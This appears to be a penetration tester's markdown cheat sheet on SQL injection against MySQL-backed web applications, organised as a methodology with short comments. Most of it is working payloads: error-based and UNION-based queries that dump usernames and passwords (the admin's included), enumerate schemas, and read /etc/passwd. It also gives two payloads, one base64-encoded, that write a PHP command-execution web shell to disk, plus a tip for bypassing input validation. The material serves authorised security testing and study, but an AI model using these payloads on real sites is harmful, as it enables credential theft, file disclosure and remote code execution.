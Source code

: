 # SQL Injection

**References:**

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

**Key Concept:** We start with a baseline of expected output, then attempt to error the database or extract information based on deviations from this expected output. These deviations can include anything from an on-screen error, to entirely different HTTP response codes.

**Note:** We can try adding semicolons before comments in case commands are not working

## Methodology

### Identification

Once we realize SQLi is possible by erroring the site, the **first thing** we need to do is figure out how to do is **inject data in the query without breaking it.**

**Example entrypoints:**

```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))

'"`)(
```

**Note:** For long pages, simply scroll to the bottom of burp and monitor when the number of lines changes in the page.

We can now confirm existence with numerical/string comparison:

```mysql
# Confirm with numerical comparison
'' OR 1=1 -- //

# Confirm with string comparison
'' OR '1'='1' -- //
```

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
'' OR 1=1 in (SELECT @@version) -- //

# We can now attempt to dump table information
'' OR 1=1 in (SELECT * FROM users) -- //

# In the case where we can only query one column at a time
'' OR 1=1 in (SELECT password FROM users) -- //

# We can now specify a user to dump the password for
'' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
'' ORDER BY 1 -- //
'' ORDER BY 1,2 -- //
'' ORDER BY 1,2,3 -- //
'' ORDER BY 1,2,3,4 -- //
'' ORDER BY 1,2,3,4,5 -- //
'' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
'' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
'' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
'' UNION SELECT null, database(), user(), @@version, null -- //

# Now we can query all databases available for us to enumerate (note: information_schema is default)
'' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //

# We can now query tables for our desired databases
'' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
'' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
'' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //

# We now have all the information we need to query table data
'' UNION SELECT null, username, password, description, null FROM users -- //
'' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
'' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
'' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
'' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
'' AND IF (1=1, sleep(2),'false') -- //
```

## Additional Concepts

UNION-based attacks can be successful against an individual product page when performed using primary keys/ID's that don't exist as querying an undefined row will simply union the provided columns and return the values provided in the request (as they were originally undefined).

In the following UNION-based example, the product of ID 999 does not exist, leading to the union attack exposing the vesion within the output (as the corresponding unioned row)

```mysql
'999' UNION SELECT 1,@@version,3,4,5,6,7,8 -- //
```

### SQLI2RCE

Figure out what directory you have write permissions to (MySQL is /var/lib/mysql)

```mysql
''; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php' -- //
```

Requires a method of executing the file (LFI, CSRF, etc.)
